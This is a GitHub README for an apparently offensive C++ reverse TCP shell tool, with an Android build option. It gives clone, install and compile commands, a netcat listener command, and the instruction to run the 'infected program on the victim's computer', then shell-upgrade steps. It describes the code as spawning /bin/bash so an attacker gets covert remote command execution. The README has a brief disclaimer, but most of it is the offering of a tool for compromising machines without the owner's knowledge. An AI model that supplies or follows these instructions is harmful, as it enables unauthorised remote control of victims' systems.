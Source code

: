 <h1 align="center">
    <a href="https://github.com/Untouchable17/Reverse-TCP-Shell">
        <img src="https://i.ibb.co/Q9kQqZ5/bruh.png" width="700">
    </a>
</h1>

<p align="center">
<a href="https://github.com/Untouchable17/Reverse-TCP-Shell"><img src="https://img.shields.io/static/v1?label=version&message=1.0.0&color=red"></a>
<a href="https://github.com/Untouchable17/Reverse-TCP-Shell/issues?q=is:issue+is:closed"><img src="https://img.shields.io/github/issues-closed/Untouchable17/Reverse-TCP-Shell?color=orange"></a>
</p>

<h1 align="center">TCP Reverse Shell C++</h1>

<b>TCP reverse shell</b> is a type of shell in which the attacker creates a connection from the target machine back to the attacker's machine, rather than the attacker connecting directly to the target. In this script, the attacker typically sets up a listener on a specified port on their own machine, and the victim machine is then compromised with malware that establishes a connection to the attacker's listener. Once the connection is established, the attacker has access to a command prompt on the victim machine, and can execute commands and interact with the system as if they were sitting at the machine itself. This technique is commonly used in cyber attacks and penetration testing
<h2 align="center">Installation</h2>

<p align="center">Installing and using program process:</p>

<p align="center">Execute all commands on behalf of the superuser and set your machine ip and port in files</p>

1. Download or clone this repository.
```
git clone https://github.com/Untouchable17/Reverse-TCP-Shell
```
2. Make the file executable with the chmod +x command
```
chmod +x install.sh
```
<br/>
3. Run the bash script `install.sh`

<br>This script will automatically download and install all the necessary dependencies, compile the programs, and then offer you to choose 1 of 3 start options


> Other Method: Manual Installation
1. Downloading or cloning this GitHub repository.
```
git clone https://github.com/Untouchable17/TCP-Reverse-Shell
```
2. Update system packages and install libpcap
```
apt-get update && apt-get upgrade -y
apt-get install libpcap-dev -y
```
3. Compile files
```
g++ ReverseShell.cpp -o ReverseShell.o
g++ SecureTCPConnection.cpp -o SecureTCPConnection.o
```
4. Run one of the program
```
./ReverseShell.o or ./SecureTCPConnection.o
```
<br>You can add the correct path to global like this: `export PATH="$PATH:$(pwd)"` and then you can run the program by just entering their name ReverseShell.o or SecureTCPConnection.o


<h2 align="center">Install and build the apk file for Android</h2>
<b>Method 1:</b> To build, use the `gradle build` command in the `Android Studio` terminal. This command will compile the source code and create an `APK file` that can be installed on an Android device

<b>Method 2:</b>Install Android SDK (Native Development Kit) and compile the program code in C++ with the command `ndk-build` and then assemble the APK file using `ant release` command


<h2 align="center">How to use</h2>
<p>At first, start listening on the hacker's computer (or on your own) to the port you specified in the file (by default, port 4444), and then run the compiled infected file on the victim's computer</p>

1. Starting port listening
```
nc -nlvp SET_PORT (ex. 4444)
```
2. Execute the infected program on the victim's computer
3. Congratulations, now you have a shell
4. If interactivity has not appeared, execute this command
```
script -a /dev/null
```

```
change shell: chsh -s /bin/{shell}
```

```
show list shells: cat /etc/shells
```

<h2 align="center">A little explanation of the code and a teaser</h2>

- This program is a type of software that allows an attacker to gain remote access to a computer or network without the knowledge or permission of the system owner.

- This code creates a TCP socket that connects to the specified server and port. Then the child process is created using the fork() call. The child process runs the /bin/bash shell, which allows an attacker to execute arbitrary commands on a remote system.

- In the parent process, commands are read from a remote client via a socket. The received commands are passed to the child process for execution using the open() call, and the results of executing commands are sent back to the client via the socket. The parent process constantly waits for commands from the client and executes them until the client closes the connection.

- In general, this code can be used for illegal access to a computer or network, so its use for illegal purposes is prohibited.


## Contact Developer


    Telegram:           @secdet17
    Group:              t.me/secdet_team
    Email:              tylerblackout17@gmail.com

